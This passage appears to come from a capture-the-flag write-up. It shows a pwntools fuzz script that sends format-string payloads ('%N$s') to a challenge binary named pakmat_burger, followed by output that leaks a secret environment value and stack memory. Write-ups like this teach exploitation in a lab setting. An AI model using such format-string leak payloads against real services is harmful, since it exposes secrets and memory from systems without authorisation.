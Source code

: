 Using fuzz script

```python
from pwn import *
import os

# This will automatically get context arch, bits, os etc
elf = context.binary = ELF('./pakmat_burger', checksec=False)


os.environ["SECRET_MESSAGE"] = "YOKO"

# Let's fuzz 25 values
for i in range(1,25):
    try:
        p = process(level='error')
        p.sendlineafter(b': ', '%{}$s'.format(i).encode())
        result = p.recv().split(b' ')
        result = result[1].split(b',')
        leak_char = result[0].ljust(8,b"\x00")
        print(str(i) + ': ' + str(leak_char).strip())
        p.close()
    except EOFError:
        pass

```
{: file='fuzz.py'}

we can get the secret message

```bash
$ python fuzz.py 
1: b'Hi\x00\x00\x00\x00\x00\x00'
2: b'(null)\x00\x00'
3: b'(null)\x00\x00'
4: b'\x00\x00\x00\x00\x00\x00\x00\x00'
5: b'\x8b\x00\x00\x00\x00\x00\x00\x00'
6: b'YOKO\x00\x00\x00\x00'
7: b'(null)\x00\x00'
8: b'(null)\x00\x00'
9: b'\x00\x00\x00\x00\x00\x00\x00\x00'
10: b'\x00\x00\x00\x00\x00\x00\x00\x00'
11: b'(null)\x00\x00'
12: b'(null)\x00\x00'
13: b'\x00\x00\x00\x00\x00\x00\x00\x00'
14: b'\x00\x00\x00\x00\x00\x00\x00\x00'
15: b'\x89\xc7\xe8\x9fs\x01\x00\x00'
16: b'(null)\x00\x00'
17: b'\xf3\x0f\x1e\xfaUH\x89\xe5H\x83\xec@dH\x8b\x04%('
18: b'\x00\x00\x00\x00\x00\x00\x00\x00'
19: b'\x80\x11\xa1j\xfe\x7f\x00\x00'
20: b'\x80\x01k\xcc\xfe\x7f\x00\x00'
21: b'\x00\x00\x00\x00\x00\x00\x00\x00'
22: b'(null)\x00\x00'
23: b'\xc5\x11\xd6\xb9\xff\x7f\x00\x00'
24: b'\x80\xa2\x1a\xd5jU\x00\x00'
```
